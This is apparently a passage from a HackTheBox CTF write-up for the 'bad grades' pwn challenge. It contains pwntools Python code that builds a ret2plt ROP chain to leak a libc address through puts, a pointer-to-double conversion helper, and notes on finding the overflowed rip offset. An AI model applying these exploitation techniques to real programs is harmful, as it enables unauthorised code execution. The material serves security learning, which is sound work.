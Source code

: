 Sadly, we don't have system() linked in our executable. Whe have to ret2plt, in order to leak the libc address.

By calling puts@plt and passing the GOT entry of puts as a parameter. This causes puts to print out its own address in libc.

Base address changes at every execution. But the padding between each functions is always the same. If we can leak the puts@got address, we can guess the system@got.

    def leak_addr(func):
        leak_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            elf.got['puts'],  # puts@got
            elf.plt['puts'],
            0x00401108 # return to main
        ]
        prepare_rop(len(leak_ropchain) + array_offset + canary_offset)
        send_ropchain(leak_ropchain)
        p.recvuntil(b"Your new average is:")
        p.recvline()
        leak = p.recvline() 
        leak = format_addr(leak)
        libc.address = leak - libc.sym['puts']
        success(f"Libc base address : {hex(libc.address)}")

Let's call puts@plt, and leak the puts@got. We need a little cleaning on the address to convert it in its decimal representation. Don't forget to return to main.

![address](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/address.png?raw=true)

The hard work is done. The program asks us to re-overflow it.
## Finding the rip offset

We can write arbitrary data on the stack. We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.
